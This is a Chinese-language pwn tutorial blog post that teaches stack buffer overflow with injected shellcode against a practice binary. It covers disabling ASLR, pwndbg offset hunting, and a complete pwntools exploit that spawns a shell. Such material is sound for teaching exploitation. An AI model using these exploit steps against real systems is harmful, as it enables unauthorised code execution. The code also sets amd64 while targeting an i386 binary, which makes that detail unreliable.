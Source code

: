 ```yaml
---
title: 'shellcode'
date: '2023-08-08'
lastmod: '2023-08-20'
tags: ['PWN', 'Stack']
draft: false
summary: '运行你自己的指令'
authors: ['default']
---
```


<div className="border-solid border-2 border-surface0 dark:border-surface0-dark p-2 bg-base dark:bg-base-dark mt-5">
  <TOCInline toc={props.toc} asDisclosure />
</div>

在真正的漏洞利用中，你不太可能拥有 `win()` 函数。shellcode 是一种允许 **运行你自己的指令** 的方法，使你能够在系统上运行任意命令。

**shellcode** 本质上是 **一系列汇编指令**，一旦我们将它输入到二进制文件中，它就会覆盖返回地址（返回指针）以劫持代码，并执行我们自己的指令。

<Warning>
  我保证你可以相信我，但你永远不应该在不知道 shellcode 作用的情况下运行它。pwntools 很安全，并且几乎拥有你需要的所有 shellcode。
</Warning>

shellcode 成功的原因是 [冯·诺伊曼结构](https://zh.wikipedia.org/wiki/%E5%86%AF%C2%B7%E8%AF%BA%E4%BC%8A%E6%9B%BC%E7%BB%93%E6%9E%84)（当今大多数计算机使用的体系结构）不区分数据和指令——无论你告诉它在哪里运行或运行什么内容，它都会尝试运行它。因此，即使我们输入的是攻击指令，计算机也不知道这一点，我们可以利用它来发挥我们的优势。

<Download name="shellcode.zip" href="/static/assets/shellcode.zip" type="Binary" />

## 0x01 禁用 ASLR

ASLR 是一种安全技术，虽然它不是专门为对抗 shellcode 而设计的，但它涉及随机化内存的某些方面，可以看我的这篇博客：[NOPs](https://www.cubeyond.net/blog/nops) 。这种随机化可能会使我们的 shellcode 变得不可靠，所以我们现在将 [禁用](https://askubuntu.com/questions/318315/how-can-i-temporarily-disable-aslr-address-space-layout-randomization) 它。

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

<Note>
  类似这样的功能性指令以后还会碰到更多，我建议使用 `alias` 为它们创建一个别名。因为就算不考虑能不能记住这些指令，如果每次都手动输入那么长的指令也是一件很浪费时间的事情。
</Note>

<Warning>
  再次强调，如果你不知道指令的作用，则永远不要运行该指令。
</Warning>

## 0x02 确定缓冲区位置

使用 `pwndbg` 调试 `vuln`，并找出缓冲区在内存中的起始位置；这就是我们想要将返回地址指向的位置。

```
$ pwndbg vuln
$ disass unsafe
[...]
0x0804918a <+24>:	lea    eax,[ebx-0x1ff8]
[...]
0x0804919c <+42>:	lea    eax,[ebp-0x134]
[...]
0x080491ac <+58>:	mov    ebx,DWORD PTR [ebp-0x4]
[...]
```

可以根据大小判断哪个是 **局部变量**。根据缓冲区大小是 300，可以判断出 `ebp-0x134` 很可能是缓冲区。让我们在 `gets()` 之后设置一个断点并找到确切的返回地址。

```
$ b *0x080491a8
$ r
Overflow me
<<IM HERE>>  <== This was my input
$ x/20s $esp
[...]
0xffffd664:	"<<IM HERE>>"
[...]
```

它似乎位于 `0xffffd664` ；如果我们多次运行二进制文件，它应该保持在原来的位置（如果没有，请确保 **禁用 ASLR！**）。

## 0x03 计算溢出 Padding

现在我们需要计算溢出 Padding。我们将使用 De Bruijn 序列，如上一篇 [文章](https://www.cubeyond.net/blog/de-bruijn-sequences) 中所述。

```
$ pwndbg vuln
$ cyclic 500
<COPY THIS>
$ r
Overflow me
<<PASTE HERE>>

Program received signal SIGSEGV, Segmentation fault.
0x64616164 in ?? ()
[...]
$ cyclic -l 0x64616164
Finding cyclic pattern of 4 bytes: b'daad' (hex: 0x64616164)
Found at offset 312
```

得到溢出 Padding 是 312 字节。

## 0x04 编写 Exploit

为了使 shellcode 正确，我们将把 `context.binary` 设置为我们的二进制文件；这会获取诸如架构、操作系统和位数之类的东西，并使 pwntools 能够为我们提供 shellcode。

```python showLineNumbers
from pwn import *

context(os='linux', arch='amd64', log_level='debug')

context.binary = ELF('./vuln')

p = process()
```

<Note>
  我们可以只使用 `process()`，因为一旦设置了 `context.binary` 就默认假定使用该进程。
</Note>

现在我们可以使用 pwntools 出色的 shellcode 功能轻易的构建 shellcode。

```python showLineNumbers
payload = asm(shellcraft.sh())      # 构建 Shellcode
payload = payload.ljust(312, b'A')  # 溢出 Padding
payload += p32(0xffffd664)          # 返回地址
```

现在让我们将其发送出去并使用 `p.interactive()`，它使我们能够与 shell 通信。

```python showLineNumbers
p.sendline(payload)

p.interactive()
```

<Warning>
  如果你遇到 `EOFError`，请打印出 shellcode 并尝试在内存中查找它，栈地址可能是错误的。

  你可以参考这篇 [博客](https://www.cubeyond.net/ret2win/) 中的 hook 调试方法来解决这个问题。
</Warning>

```
$ python exp.py
[*] 'vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
[+] Starting local process 'vuln': pid 39321
[*] Switching to interactive mode
Overflow me
$ whoami
cub3y0nd
```

## 0x05 最终 Exploit

```python:exp.py showLineNumbers
from pwn import *

context(os='linux', arch='amd64', log_level='info')

context.binary = ELF('./vuln')

p = process()

payload = asm(shellcraft.sh())
payload = payload.ljust(312, b'A')
payload += p32(0xffffd664)

p.sendline(payload)

p.interactive()
```

## 0x06 总结

- 当提示输入时，我们注入了 shellcode
- 然后，我们通过覆盖栈上保存的返回地址以指向我们的 shellcode
来劫持代码执行
- 一旦返回地址压入 EIP 中，它就指向我们的 shellcode
- 这导致程序执行我们的指令，为我们（在本例中）提供了用于执行
任意命令的 shell

